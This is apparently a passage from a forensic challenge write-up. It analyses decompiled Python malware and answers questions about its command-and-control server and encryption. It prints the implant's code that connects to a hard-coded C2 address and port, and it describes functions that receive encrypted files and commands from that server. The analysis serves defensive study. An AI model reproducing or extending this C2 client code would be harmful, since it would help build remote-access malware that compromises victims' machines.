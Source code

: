 ```python

        except Exception:
            time.sleep(60)
            continue


if __name__ == "__main__":
    try:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(("13.61.7.218", 55155))

        # Generate encryption key
        k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))

        client.send(f"{user}{SEPARATOR}{k}".encode())

        client.settimeout(600)

        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    except Exception:
        time.sleep(60)
        pass

```

### [4/6] What is the IP address and port (IP:PORT) used by the malware to establish a connection with the Command and Control (C2) server?

Within the decompiled source code we find the function for establishing the connection with the C2
```python
if __name__ == "__main__":
    try:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect(("13.61.7.218", 55155))

```

### [5/6] What encryption key did the attacker use to secure the data?
Next, analyzing the code provides deeper insight into how to reverse-engineer it. The main functions are as followins:
- `enc_mes(mes, key)`
	- Encrypts a given message (mes) using AES in CBC mode with the provided key.
	- Pads the message to a multiple of 16 bytes before encryption.
	- Handles both string and byte inputs.
	- Returns the encrypted message or None if an error occurs.
- `dec_mes(mes,key)`
	- Decrypts an encrypted message (`mes`) using AES in CBC mode with the provided `key`.
	- Removes padding after decryption.
	- Handles empty byte strings.
	- Returns the decrypted message or `b"echo Try it again"` if decryption fails.
- `dec_file_mes(mes, key)`
	- Also decrypts data, primarily intended for file content, then unpads it.
- `receive_file()`
	- Establishes a separate connection to a specified server ("13.61.7.218", 54163).
	- Generates a random 16-character encryption key.
	- Sends the key to the server.
	- Receives the encrypted filename and filesize.
	- Sends a confirmation message ("ok2").
	- Receives the encrypted file data in chunks.